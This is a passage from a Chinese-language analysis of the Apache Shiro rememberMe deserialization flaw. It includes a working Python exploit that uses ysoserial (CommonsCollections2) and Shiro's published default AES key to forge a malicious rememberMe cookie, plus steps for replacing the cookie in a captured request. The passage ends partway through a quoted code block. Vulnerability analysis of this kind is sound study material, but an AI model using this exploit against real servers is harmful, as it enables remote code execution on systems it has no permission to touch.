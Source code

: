 继续跟进deserialize

![image-20220314213048438](images/12.png)

终于走到了readObject进行反序列化了

# 漏洞利用

伪造cookie的exp

```
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command],stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 这里密钥key是已知的，在shiro官网上有,可根据不同系统替换密钥
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme("dir")
    print("rememberMe={0}".format(payload.decode()))
```

在登陆后抓取任意的数据包，这样会存在一个rememberMe的cookie

![image-20220314184933538](images/13.png)

替换其中的rememberMe参数，并且删除掉JSESSIONID参数

![image-20220314202442861](images/14.png)

这里利用的是CC2的链子，但是在大多数时候却没有Commons-Collections4的依赖，虽然在shiro中有CC3.2版本的依赖，但是shiro中重写了`ObjectInputStream`类的`resolveClass`函数，`ObjectInputStream`的`resolveClass`方法用的是`Class.forName`类获取当前描述器所指代的类的Class对象。而重写后的`resolveClass`方法，采用的是`ClassUtils.forName`

```
public static Class forName(String fqcn) throws UnknownClassException {
    Class clazz = THREAD_CL_ACCESSOR.loadClass(fqcn);
    if (clazz == null) {
        if (log.isTraceEnabled()) {
            log.trace("Unable to load class named [" + fqcn + "] from the thread context ClassLoader.  Trying the current ClassLoader...");
        }

        clazz = CLASS_CL_ACCESSOR.loadClass(fqcn);
    }

    if (clazz == null) {
        if (log.isTraceEnabled()) {
            log.trace("Unable to load class named [" + fqcn + "] from the current ClassLoader.  " + "Trying the system/application ClassLoader...");
        }

```